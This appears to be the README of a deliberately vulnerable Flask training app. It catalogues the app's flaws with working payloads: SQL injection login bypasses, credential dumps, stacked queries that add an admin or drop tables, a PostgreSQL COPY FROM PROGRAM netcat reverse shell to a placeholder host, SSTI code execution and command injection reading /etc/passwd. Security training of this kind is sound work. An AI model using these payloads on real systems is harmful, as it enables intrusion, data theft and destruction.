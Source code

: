 # eTechAcademy Flask App

## Vulnerabilities

### SQL Injection
#### Retrieve Data
Paths: `/login` and `/index`

Methods: `GET, POST`

**Examples:**
- Log into admin account with SQL
```
username: ' OR 1=1--
password: a

OR 

username: admin 
password: ' OR 1=1--
```

- Vulnerable query database on `/index`
```
' OR 1=1--
' UNION SELECT username,password FROM users--
' UNION SELECT username || '~' || password,role FROM users--
```
![SQL Injection](assets/index_sql_injection.png)
Resources: [Sqli CheatSheet](https://book.hacktricks.xyz/pentesting-web/sql-injection)


**SQL Fix:**
```
cur.execute("SELECT user_id, role FROM users WHERE username = %s AND password = %s", (username, password))
```

#### Insert/Update/Drop Data
**Examples:**
Path: `/add_course`

Methods: `GET, POST`

*Note:* Must be **Instructor/Admin** role and you must select instructor and set image_path for this to work properly.
```
# Insert new admin user
New Course', 'Malicious Description', NULL, 'image.jpg'); INSERT INTO users (username, password, role) VALUES ('evil', 'evil', 'admin'); --

# Update admin password
New Course', 'test', NULL, 'test.jpg'); UPDATE users SET password = 'testing' WHERE username = 'admin'; --

# Drop table
New Course', 'test', NULL, 'test.jpg'); DROP TABLE courses CASCADE; --
```
![SQL Injection Query](assets/add_course_sql_query.png)
![SQL Injection Proof](assets/add_course_sql_proof.png.png)

#### RCE Via SQL Injection (Postgresql)
Path: `/add_course`

Methods: `GET, POST`

**Example:**
```
NewCourse', 'test', 1, 'test'); DROP TABLE IF EXISTS cmd_exec; CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f'; SELECT * FROM cmd_exec;--
```

### Server-Side Template Injection
Paths: `/search_course`

Methods: `GET, POST`

**Examples:**
```
{{ 7 * 7 }}
```

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
![Server Side Template Injection](assets/course_ssti.png)
Other resources: [SSTI Cheatsheet](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

### Command Injection
Path: `/admin_dashboard/system_monitor`

Methods: `GET, POST`

*NOTE: Anyone can access this page. Code doesn't check for user or admin role.*
**Examples:**
```
whoami
cat /etc/passwd
```
![Command Injection](assets/command_injection.png)

### Forgot Password
Path: `/forgot_password`

Methods: `GET, POST`

Anyone can change password to any user since it doesn't authenticate existing user.

![](assets/forgot_password.png)

### Command Injection via API endpoint
Path: `/endpoint`

Methods: `POST`

![](assets/endpoint_script_exploit.png)

**Example**
```
python3 etechacademy_script.py --target <HOST> --port <PORT> --context endpoint --cmd <CMD>
curl -X POST http://<target>:<port>/endpoint -H "Content-Type: application/json" -d '{"command": "whoami"}'
```

### Unrestricted File Upload
Path: `/upload`

Methods: `GET, POST`

Can upload files to server with any extension. Once uploaded, you can execute the file it is has (*.php, .py, .sh*) extensions or delete the file.
![Upload File](assets/upload_file.png)

### Debug Shell
Path: `/debug`

Methods: `GET`

Debug shell to execute python commands on server.
![](assets/debug_shell.png)
